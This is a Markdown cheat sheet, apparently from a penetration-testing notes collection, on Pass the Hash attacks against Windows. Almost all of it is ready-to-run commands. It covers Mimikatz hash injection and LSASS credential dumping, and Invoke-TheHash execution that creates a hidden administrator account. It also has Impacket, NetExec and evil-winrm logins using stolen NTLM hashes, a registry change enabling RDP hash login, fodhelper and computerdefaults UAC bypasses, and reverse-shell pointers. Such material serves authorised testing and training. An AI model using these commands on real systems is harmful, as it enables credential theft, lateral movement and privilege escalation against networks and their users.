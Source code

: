 ```yaml
---
title: Pass the Hash
category: Post-Exploitation
tags: [pth, credential, hunting, passwd, hash, smb]
tools: ['mimikatz', 'invoke-thehash', 'evil-winrm', 'netexec', 'impacket']
---
```


# Pass the Hash ([PtH](https://attack.mitre.org/techniques/T1550/002/))

## [Mimikatz](https://github.com/gentilkiwi) (Windows)

Mimikatz has a module named `sekurlsa::pth` that allows you to perform a Pass the Hash attack by starting a process using the hash of the user's password.

```cmd
# /rc4 or /NTLM - NTLM hash of the user's password
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64f12cddaa88057e06a81b54e73b949b /domain:example.com /run:cmd.exe" exit
```

---

## PowerShell [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash) (Windows)

>Invoke-TheHash contains PowerShell functions for performing pass the  hash WMI and SMB tasks. WMI and SMB connections are accessed through the .NET TCPClient. Authentication is performed by passing an NTLM hash  into the NTLMv2 authentication protocol. Local administrator privilege  is not required client-side.

Local administrator privileges are not required client-side, but the  user and hash use to authenticate need to have administrative rights on the target computer.

### Invoke-TheHash with SMB

The following command will use the SMB method for command execution to  create a new user named mark and add the user to the Administrators  group:

```powershell
Import-Module .\Invoke-TheHash.psd1

# Can be used with the WMI as well
Invoke-SMBExec -Target 172.16.1.10 -Domain example.com -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

Can also be used to invoke a reverse shell on the target machine with `-Command`

- `.\nc.exe -lvnp 8001`
- [Reverse Shell Generator](https://www.revshells.com/) - PowerShell #3 (Base64)

### Invoke-TheHash with WMI

```powershell
Import-Module .\Invoke-TheHash.psd1

Invoke-WMIExec -Target DC01 -Domain example.com -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "powershell -e --Payload--"
```

---

## Linux

### Impacket PsExec

`````bash
impacket-psexec john@10.129.201.126 -hashes :c4b0e1b10c7ce2c4723b4e2407ef81a2
`````

- [impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)
- [impacket-atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)
- [impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)

### NetExec

`````bash
netexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
`````

To perform the same actions but attempt to authenticate to each host in a subnet using the local administrator password hash, we could add `--local-auth` and|or `-x` to execute commands.

#### Command Execution

```bash
netexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

### [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)

If SMB is blocked or we don't have administrative rights, we can use this alternative protocol to connect to the target machine.

```bash
evil-winrm -i 10.129.204.23 -u john -H c4b0e1b10c7ce2c4723b4e2407ef81a2
```

### RDP

Perform an RDP PtH attack to gain GUI access using `xfreerdp`.

```bash
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

If there is a restricted error ***exec*** in and run:

```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

### Extracting credentials with [Mimikatz](https://github.com/ParrotSec/mimikatz)

Dump credentials from memory using the `sekurlsa` module, or manually decrypt credentials using the `dpapi` module.

May need to bypass UAC if no admin rights, impersonation does not grant admin permissions.

```cmd
# Target the LSASS process with sekurlsa:
C:\Users\Administrator\Desktop> mimikatz.exe

mimikatz # privilege::debug
Privilege '20' OK

# Credential Manager
mimikatz # sekurlsa::credman

# Local passwords and hashes
mimikatz # sekurlsa::logonpasswords
```

Methods for getting passed UAC if no admin access:

```cmd
# fodhelper.exe
reg add HKCU\Software\Classes\ms-settings\shell\open\command /f /ve /t REG_SZ /d "cmd.exe" && start fodhelper.exe

# computerdefaults.exe
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /d "" /f && reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /t REG_SZ /d "cmd.exe" /f && start computerdefaults.exe
```

## Note

> UAC (User Account Control) limits local users' ability to perform remote administration operations. if `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` is set to 0, it means that the built-in local admin account (RID-500,  "Administrator") is the only local account allowed to perform remote  administration tasks. Setting it to 1 allows the other local admins as  well.

> There is one exception, if the registry key `FilterAdministratorToken` (disabled by default) is enabled (value 1), the RID 500 account (even  if it is renamed) is enrolled in UAC protection. This means that remote  PTH will fail against the machine when using that account. 
